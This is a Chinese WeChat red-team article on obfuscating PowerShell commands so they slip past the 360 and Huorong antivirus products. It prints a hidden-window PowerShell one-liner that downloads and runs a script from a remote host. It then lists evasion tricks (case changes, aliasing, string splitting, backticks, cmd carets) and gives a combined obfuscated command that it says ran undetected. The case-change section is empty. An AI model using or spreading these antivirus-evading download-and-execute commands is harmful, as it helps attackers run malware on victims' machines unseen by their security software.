 #  Bypass_AV - Powershell命令免杀

[ 渗透攻击红队 ](javascript:void\(0\);)

**渗透攻击红队** ![]()

微信号 RedTeamHacker

功能介绍 一个专注于渗透红队攻击的公众号

____

__

收录于话题

编者荐语：

学习一波

以下文章来源于不懂安全的校长 ，作者校长

![](http://wx.qlogo.cn/mmhead/Q3auHgzwzM6fWjaX953fWcIeWO2XYI40qbq9Mibxr5NJ0ODVk7uibZOw/0)
**不懂安全的校长** .

校长不懂安全，总是发些奇奇怪怪的东西！

## 0x01 前言

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

现在powershell指令一般都会被拦截，且不说.ps1现在能不能过免杀，这次我们先来讨论`powershell加载命令能否Bypass_AV`

对于这种一句话，我们需要去思考！

## 0x02 官方文档

我们先去官网查看相关的文档

 **文档:**

  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_quoting_rules?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/module/microsoft.powershell.core/about/about_aliases?view=powershell-7.1`
  * `https://docs.microsoft.com/zh-cn/powershell/scripting/developer/cmdlet/required-development-guidelines?view=powershell-7.1`

## 0x03 准备 && 思路

环境:`Powershell 5`

测试免杀环境:`Windows 10`

杀软:`360 && 火绒`

测试时间:`2021年9月7日`

将进行免杀的时候， **我们需要思考一下思路都有什么？**

  *  **大小写绕过**
  *  **管道符**
  *  **修改函数名**
  *  **命令拆分**
  *  **反引号处理**

####  Tip:

`进行Powershell命令绕过，我们可以先了解WEB方面的远程命令执行以及它的各种Bypass姿势，有助于我们对Powershell加载命令进行免杀`

## 0x04 开始爬坑

#### 大小写

    
    
    powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.190.128:80/a'))"  
    

通过对整个语句进行`大小写`，看看能不能Bypass_AV

修改后:

## 0x05 组合拳

将上面的思路组合在一起来进行绕过

Powershell:

    
    
    cmd /c echo set-alias -name xz -value IEX;x^z (New-Object "Ne`T.WeB`ClienT").d^o^w^n^l^o^a^d^s^t^r^i^n^g('ht'+'tP://19’+'2.168.190.12'+'8/a') | p^o^w^e^r^s^h^e^l^l -  
    

![](https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210908145431.png)直接起飞，`360
&& 火绒` 直接绕过执行命令

## 0x06 结尾

对于`Powershell加载命令`来说，多阅读官方文档肯定是没错的，多了解几个函数，几个功能！对于我们进行免杀是有莫大帮助的。方法肯定不止局限于我列举的这几种，推荐`公众号
@XG小刚`本文也以这个为参考。

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读

分享 收藏

赞 在看

____已同步到看一看[写下你的想法](javascript:;)

前往“发现”-“看一看”浏览“朋友在看”

![示意图](//res.wx.qq.com/mmbizwap/zh_CN/htmledition/images/pic/appmsg/pic_like_comment55871f.png)

前往看一看

**看一看入口已关闭**

在“设置”-“通用”-“发现页管理”打开“看一看”入口

[我知道了](javascript:;)

__

已发送

取消 __

####  发送到看一看

发送

Bypass_AV - Powershell命令免杀

最多200字，当前共字

__

发送中

写下你的留言

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。 视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

